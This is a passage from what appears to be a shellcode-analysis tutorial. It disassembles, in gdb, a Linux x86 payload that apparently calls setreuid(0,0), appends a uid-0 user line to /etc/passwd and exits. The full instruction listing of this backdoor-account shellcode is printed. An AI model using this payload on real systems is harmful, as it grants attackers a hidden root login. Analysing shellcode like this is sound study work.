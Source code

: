 ```nasm
00000050  FC                cld
```
the xchg instruction moves our return value from open to the ebx register -- our file descriptor.\
It seems our instructions at the called location are off by a bit.  Let's open up gdb to see if we can get the proper instructions so we are walking through the right steps.. Lets disassemble the shellcode portion so we can find the proper address..
```nasm
gdb-peda$ disas
Dump of assembler code for function code:
=> 0x0804a040 <+0>:	xor    ecx,ecx
   0x0804a042 <+2>:	mov    ebx,ecx
   0x0804a044 <+4>:	push   0x46
   0x0804a046 <+6>:	pop    eax
   0x0804a047 <+7>:	int    0x80
   0x0804a049 <+9>:	push   0x5
   0x0804a04b <+11>:	pop    eax
   0x0804a04c <+12>:	xor    ecx,ecx
   0x0804a04e <+14>:	push   ecx
   0x0804a04f <+15>:	push   0x64777373
   0x0804a054 <+20>:	push   0x61702f2f
   0x0804a059 <+25>:	push   0x6374652f
   0x0804a05e <+30>:	mov    ebx,esp
   0x0804a060 <+32>:	inc    ecx
   0x0804a061 <+33>:	mov    ch,0x4
   0x0804a063 <+35>:	int    0x80
   0x0804a065 <+37>:	xchg   ebx,eax
   0x0804a066 <+38>:	call   0x804a08d <code+77>
   0x0804a06b <+43>:	push   ebx
   0x0804a06c <+44>:	dec    esp
   0x0804a06d <+45>:	inc    ecx
   0x0804a06e <+46>:	inc    ebp
   0x0804a06f <+47>:	cmp    al,BYTE PTR [ecx+0x7a]
   0x0804a072 <+50>:	jb     0x804a0d7
   0x0804a074 <+52>:	outs   dx,BYTE PTR ds:[esi]
   0x0804a075 <+53>:	jp     0x804a0c7
   0x0804a077 <+55>:	pop    ecx
   0x0804a078 <+56>:	ins    BYTE PTR es:[edi],dx
   0x0804a079 <+57>:	data16 jb 0x804a0ae
   0x0804a07c <+60>:	inc    ebp
   0x0804a07d <+61>:	cmp    dh,BYTE PTR [eax]
   0x0804a07f <+63>:	cmp    dh,BYTE PTR [eax]
   0x0804a081 <+65>:	cmp    bh,BYTE PTR [edx]
   0x0804a083 <+67>:	das    
   0x0804a084 <+68>:	cmp    ch,BYTE PTR [edi]
   0x0804a086 <+70>:	bound  ebp,QWORD PTR [ecx+0x6e]
   0x0804a089 <+73>:	das    
   0x0804a08a <+74>:	jae    0x804a0f4
   0x0804a08c <+76>:	or     bl,BYTE PTR [ecx-0x75]
   0x0804a08f <+79>:	push   ecx
   0x0804a090 <+80>:	cld    
   0x0804a091 <+81>:	push   0x4
   0x0804a093 <+83>:	pop    eax
   0x0804a094 <+84>:	int    0x80
   0x0804a096 <+86>:	push   0x1
   0x0804a098 <+88>:	pop    eax
   0x0804a099 <+89>:	int    0x80
   0x0804a09b <+91>:	add    BYTE PTR [eax],al
End of assembler dump.
gdb-peda$ 
```